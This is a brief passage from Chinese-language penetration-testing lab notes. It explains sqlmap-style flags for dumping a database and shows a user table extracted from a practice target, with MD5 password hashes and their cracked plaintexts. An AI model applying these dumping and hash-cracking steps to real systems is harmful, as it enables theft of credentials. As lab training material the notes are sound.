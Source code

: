 --batch：自动获取

--dump：打印

--current-user：获取近来用户

book表中的内容：

![image-20220321110735391](靶场练习.assets/image-20220321110735391.png)

user表中的内容：

```
1  | David        | user1      | 5d41402abc4b2a76b9719d911017c592 (hello)    | Newton Circles |
| 2  | Beckham      | user2      | 6269c4f71a55b24bad0f0267d9be5508 (commando) | Kensington     |
| 3  | anonymous    | user3      | 0f359740bd1cda994f8b55330c86d845 (p@ssw0rd) | anonymous      |
| 10 | testismyname | test       | 05a671c66aefea124cc08b76ea6d30bb (testtest) | testaddress    |
| 11 | superadmin   | superadmin | 2386acb2cf356944177746fc92523983            | superadmin     |
| 12 | test1        | test1      | 05a671c66aefea124cc08b76ea6d30bb (testtest) | test1          |
| 13 | <blank>      | admin      | e10adc3949ba59abbe56e057f20f883e (123456)   | <blank>        
```

![image-20220321110836721](靶场练习.assets/image-20220321110836721.png)
